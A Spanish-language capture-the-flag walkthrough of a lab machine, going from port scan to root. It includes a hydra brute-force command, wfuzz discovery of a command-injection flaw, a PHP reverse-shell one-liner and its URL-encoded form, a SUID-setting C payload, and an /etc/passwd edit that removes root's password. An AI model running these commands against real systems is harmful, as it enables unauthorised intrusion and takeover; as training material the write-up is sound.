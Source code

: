 # Enumeracion de Puertos, Servicios y Versiones

```ruby
nmap -Pn -n -sS -p- --open -sCV --min-rate 5000 172.17.0.2 -oN nmap
```

![image](https://github.com/user-attachments/assets/a82e92d6-9b54-491b-9e1b-222710dad996)


al chequeaar el servicio web me consigo con la web del pinguino de mario

![image](https://github.com/user-attachments/assets/03a84f47-a274-4e18-90c0-a4bead79c80c)

revisando la web, me consigo un panel de login al intentar ir al `linkedin` del 🐧


![image](https://github.com/user-attachments/assets/3aed9c08-bdd6-44a8-8cdc-1aedf6d84347)


![image](https://github.com/user-attachments/assets/da669741-af31-41f1-949d-dcf7327511ff)


aqui despues de un rato logre conseguir las credenciales tras varios ataques al login

```ruby
 hydra -l administrator -P /usr/share/wordlists/rockyou.txt 172.17.0.2 http-post-form '/sobre-mi/login.php:username=^USER^&password=^PASS^:F=Usuario o contraseña incorrectos.' -f -t 64 -I
```
```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-17 08:35:16
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344403 login tries (l:1/p:14344403), ~224132 tries per task
[DATA] attacking http-post-form://172.17.0.2:80/sobre-mi/login.php:username=^USER^&password=^PASS^:F=Usuario o contraseña incorrectos.
[80][http-post-form] host: 172.17.0.2   login: administrator   password: panther
[STATUS] attack finished for 172.17.0.2 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-11-17 08:35:26
```

y tras acceder me consigo un mensaje y credenciales por `ssh`

![image](https://github.com/user-attachments/assets/fa106f33-8dde-46ed-9841-d32fda4162cb)

intento acceder via `ssh` pero no puedo establecer la conexion 


![image](https://github.com/user-attachments/assets/d3342d28-21ab-438d-85e5-744059568ab6)


y si recuerdo la nota, existe un segmento de red que no esta restringido asi que cambio de ip hasta dar con el segmento que no lo esta y logro acceder con la 
ip `172.17.0.160`

![image](https://github.com/user-attachments/assets/111a0ce5-34fc-4a38-8fc8-666afbd3c0fe)

![image](https://github.com/user-attachments/assets/fed8e19b-5ffd-4bf7-ad39-cf73f1c17a17)

el user `darks` esta restringido con una `rbash` asi que no podria hacer mucho por aqui... asi que continuo chequeando la web ya que el mensaje que dejaron indica que
existe un fallo de seguridad... despues de chquear la web di con un `RCE` en `http://172.17.0.2/sobre-mi/confidencial.php`


```ruby
wfuzz -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u "http://172.17.0.2/sobre-mi/confidencial.php?FUZZ=FUZZ" -t 200 -H 'Cookie: PHPSESSID=2sdb4tuojhi1bqhlshc2fscv31; session_id=427b45efbb0032a97935f3bfc53f0398'  --hh=1448
```

![image](https://github.com/user-attachments/assets/bd8ac310-6d2c-4a9e-8d62-944540d44f5c)

lo pruebo y en efecto tengo un `RCE`

![image](https://github.com/user-attachments/assets/f848fb7f-a5a4-45f8-bbcf-3cce6ef00ae6)

asi que me envio una revershell `php` porque una `bash` no funciona, `php -r '$sock=fsockopen("172.17.0.160",4444);shell_exec("/bin/bash <&3 >&3 2>&3");'` y url-encodeada queda
```
%70%68%70%20%2d%72%20%27%24%73%6f%63%6b%3d%66%73%6f%63%6b%6f%70%65%6e%28%22%31%37%32%2e%31%37%2e%30%2e%31%36%30%22%2c%34%34%34%34%29%3b%73%68%65%6c%6c%5f%65%78%65%63%28%22%2f%62%69%6e%2f%62%61%73%68%20%3c%26%33%20%3e%26%33%20%32%3e%26%33%22%29%3b%27
```


# Escalada

### www-data

tratamiento de la terminal

```
export TERM=xterm
export SHELL=bash
script /dev/null -c bash 
^Z
stty raw -echo; fg
reset xterm
stty rows 38 columns 168
```

despues de buscar un rato en el sistema, me consigo con un binario

```
find / -user www-data -type f -executable 2>/dev/null
```

![image](https://github.com/user-attachments/assets/a05d1c1b-8e8b-471e-9ad3-8732e39e8c11)

lo ejecuto pero no pasa nada, asi que lo paso a mi maquina para examinarlo

![image](https://github.com/user-attachments/assets/3937d4b4-9f8b-469f-839c-b1ab124fae9b)

aqui puedo observar una direccion ip `172.17.0.188`, un mensaje de error `Error al enviar datos` y una cadena que parece estar codificada en `base32/64` pero despues de
intentar decodificar, no es legible, asi que con el mensaje de error y la ip me da una pista, por lo que ejecuto nuevamente el binario desde el servidor y observo el trafico
de la red

![image](https://github.com/user-attachments/assets/7659f3f6-8fd6-4e6a-b444-988b4dfb42a4)


aqui ya puedo ver que se esta hhaciendo una solicitud arp preguntando por la misma ip del binario `172.17.0.188` asi que cambio mi ip por la ip del binario

![image](https://github.com/user-attachments/assets/2df1bdbe-025d-43e7-b608-fc4c2bf388f6)

despues de cambiar de ip se cae la revershell asi que la vuelvo establecer como antes, pero enviado la revershell a la nueva ip `172.17.0.188`, vuelvo ejecutar el binario
y observo el trafico de la red

![image](https://github.com/user-attachments/assets/92a3da64-0899-4694-b074-b1b6dbbf528f)

esta vez puedo ver mas informacion, como el puerto `7777` y la conexion `UDP` asi que me coloco en escucha por dicho puerto a ver si recibo algo


![image](https://github.com/user-attachments/assets/743295f5-a242-4112-928f-3d03d3910a27)


y en efecto, recibbo la cadena

```
MFDTS42ZKNCWOYZSHF2GEM2NM5NFO53HLIZUUMLDI44GOULNPBUFSMTUIRMVQULTJFEEE3DCNZHGQYSXHF5ESR2WOVEUOVTVLEZUU4DDJBJGQY3JIJWGGM2SNQFESSCONRRW4WTMMNUUE522LBFHMSKHGV3ESSCSOBNFONLMJFDTK2C2I5CWOWSHKVTWCVZVGBNFQSTMMN4XOZ3EI5KWOWKXNB3GG3SKNBRW2VLHMRDWY3DCLBBHMCSPNFBGUY3NNR5GIR2GONHW2UTZMIZUE2TBI44XUZCHHF3U4RCVPJKTA4CHJFCG6Z22I5WHUWTOJIYWIR2FJMFA====
```

que despues de decodificar, obtengo un mensaje con credenciales

![image](https://github.com/user-attachments/assets/4632d76d-e0cc-4cbf-884a-9f35048a488e)


### Cristal

en el directorio del user `cristal` puedo observar un script, un programa escrito en `C` y un binario

![image](https://github.com/user-attachments/assets/9de74a7f-b466-4403-9eeb-a13e2a9d4b36)


systm.sh
```
#!/bin/bash

var1="/home/cristal/systm.c"
var2="/home/cristal/syst"

while true; do
      gcc -o $var2 $var1
      $var2
      sleep 15
done
```
aqui ya puedo ver un error en el script, y es que dentro del bucle compila el binario y luego lo ejecuta, cuando solo debaria ejecutar el binario dentro del bucle
y si observamos los permisos de los archivos, vemos que el grupo `editor` tiene permiso de escritura sobre el programa `.C` que se compila en el script y que el user
`cristal` pertenece al grupo `editor` por lo que puedo editar el programa y hacer que ejecute lo que yo quiera, asi que hare que le asigne el bit suid al binario `/bin/bash` 
usando el siguiente codigo:

systm.c
```
#include <stdlib.h>

int main() {
    // Comando a ejecutar
    const char *command = "chmod u+s /bin/bash";

    // Ejecutar el comando usando system()
    (void)system(command); // Ignorar el resultado

    return 0;
}
```

![image](https://github.com/user-attachments/assets/25293dc5-cdb2-4477-be40-9942e97e1629)

asi que escalo a `root`

![image](https://github.com/user-attachments/assets/4dafcf50-ff6f-410e-95f9-4db9b1655344)

despues de escalar si observo el `id` no soy `root` completamente asi que edito el archivo `/etc/passwd` para eliminar la `x` en la linea de `root` y asi quede : `root::0:0:root:/root:/bin/bash`

![image](https://github.com/user-attachments/assets/ac41baed-01d1-4184-955f-9908e560f677)

ahora si soy `rot` totalmente






